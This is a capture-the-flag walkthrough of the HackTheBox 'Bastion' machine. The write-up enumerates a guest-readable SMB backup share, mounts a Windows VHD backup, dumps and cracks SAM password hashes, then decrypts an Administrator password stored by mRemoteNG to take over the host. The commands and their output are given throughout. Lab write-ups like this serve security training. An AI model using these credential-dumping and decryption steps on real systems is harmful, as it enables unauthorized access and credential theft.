

# HackTheBox Bastion

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.134

[+] Openning ports: 22,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.134 -p22,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:30 +07
Nmap scan report for 10.10.10.134
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -38m12s, deviation: 1h09m16s, median: 1m46s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-06T09:33:24+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-06T07:33:28
|_  start_date: 2021-04-06T07:31:02

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.21 seconds
```

### Server Message Block

Enum service SMB with `smbmap`, I saw there is Backups folder can access by guest.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.134 -u guest
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
[\] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\THPQBWRNVY, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

Go to `Backups` folder using `smbclient`. This folder contain note file and windows image backup folder.

```
┌──(Hades㉿10.10.14.5)-[2.0:12.6]~
└─$ smbclient //10.10.10.134/Backups
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  7 14:48:08 2021
  ..                                  D        0  Wed Apr  7 14:48:08 2021
  note.txt                           AR      116  Tue Apr 16 17:10:09 2019
  QYJORCBZDG                          D        0  Wed Apr  7 14:48:08 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 19:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 19:44:02 2019
```

I got the note file to local machine to read it.

```
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

File note.txt is a message from Sysadmins, may a user is transfering his entire backup file, and folder `WindowsImageBackup` is his backup.

```
┌──(Hades㉿10.10.14.5)-[1.7:12.9]~/walkthrough/hackthebox/bastion
└─$ cat note.txt                              

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

Go to folder `WindowsImageBackup` and I saw file `vhd` which is Virtual Hard Disk of Windows machines.

```
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                  Dn        0  Fri Feb 22 19:45:32 2019
  ..                                 Dn        0  Fri Feb 22 19:45:32 2019
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 19:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 19:45:32 2019
  <snip>
```

## Foothold

### Crack Windows Credential

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastion)

Because file `.vhd` is too large, download this file is not a good idea, I decided to mount this file as an image.
Fisrt, mount folder Backups to `/mnt/Backups` folder in local machine.

```
┌──(Hades㉿10.10.14.5)-[0.6:13.2]~/walkthrough/hackthebox/bastion
└─$ sudo mount -t cifs //10.10.10.134/Backups /mnt -o user=guest,password=
```

Using `guestmount` to mount file `.vhd`. 

```
┌──(Hades㉿10.10.14.5)-[0.6:13.2]~/walkthrough/hackthebox
└─$ sudo guestmount -a /mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd 
```

Go to folder `/mnt/vhd`, It showed folder of Windows machine.

```
┌──(Hades㉿10.10.14.5)-[0.8:28.2]/mnt
└─$ sudo ls /mnt/vhd
'$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
 autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
```

I go to folder contain file `SAM` and file `SYSTEM` at `/Windows/System32/config` to copy it and dump credentials.

```
┌──(root💀kali)-[/mnt]
└─# cd vhd/Windows/System32/config

┌──(root💀kali)-[/mnt/vhd/Windows/System32/config]
└─# ls -l SAM SYSTEM
-rwxrwxrwx 1 root root  262144 Feb 22  2019 SAM
-rwxrwxrwx 1 root root 9699328 Feb 22  2019 SYSTEM
```

Using `samdump2` dump credentials of user in the system and save the hash to file.

```
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
                                                                                                                                                                            
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM > hash
```

Using john with format NT and rockyou.txt directory to crack file hash. 

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ john --format=NT --wordlist=/home/kali/directory/rockyou.txt hash
<snip>
bureaulampje     (L4mpje)
<snip>
Session completed
```

Password creacked, I got the password: `bureaulampje`. Based on the info gathering, the system openning port 22, allow ssh to server. Let's using cracked credential and access to Bastion.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ ssh L4mpje@10.10.10.134               
L4mpje@10.10.10.134's password: 
<snip>
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

## Privilege Escalation

### Crack mRemoteNG Creadential

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastion)

After enum program installed in the server, I saw folder `mRemoteNG` in Program Files (x86).

```
l4mpje@BASTION C:\Program Files (x86)>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Program Files (x86)

<snip>
22-02-2019  15:01    <DIR>          mRemoteNG
<snip>
               0 File(s)              0 bytes
              14 Dir(s)  11.296.088.064 bytes free
```

Try to search public exploit for mRemoteNG, I saw a [python script to decrypt passwords stored by mRemoteNG](https://github.com/haseebT/mRemoteNG-Decrypt)


Searching password stored location, I have the result is file `confCons.xml`.



Using `dir /s` search location of file `confCons.xml` in the server. This file in the directory `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`.

```
l4mpje@BASTION C:\Users>dir /s /d confCons.xml
<snip>
 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

confCons.xml
<snip>
```

Read file `confCons.xml` and I have the encrypted Administrator's password.

```
l4mpje@BASTION C:\Users>type C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
<snip>
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389"
 <snip>
```

Using `mremoteng_decrypt.py` to crack the hash and got the Password: `thXLHM96BeKL0ER2`.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

SSH to server with Administrator Credential and own the system.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ ssh administrator@10.10.10.134
administrator@10.10.10.134's password: 
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>whoami                                                                             
bastion\administrator 
```